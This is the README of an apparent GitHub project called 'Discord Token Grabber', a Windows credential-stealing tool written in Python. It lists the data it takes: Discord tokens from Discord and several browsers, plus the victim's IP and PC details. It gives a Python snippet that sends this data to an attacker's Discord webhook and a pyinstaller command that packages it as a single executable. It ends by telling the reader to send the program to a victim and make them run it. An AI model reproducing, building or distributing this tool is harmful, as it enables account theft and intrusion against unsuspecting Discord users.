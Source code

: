 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3. </p>

![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green)
[![wakatime](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56.svg)](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56)

This version of the grabber **only** supports **Windows**.
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- a whole lot of code refactoring
- added simple , fancy , raw functions
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
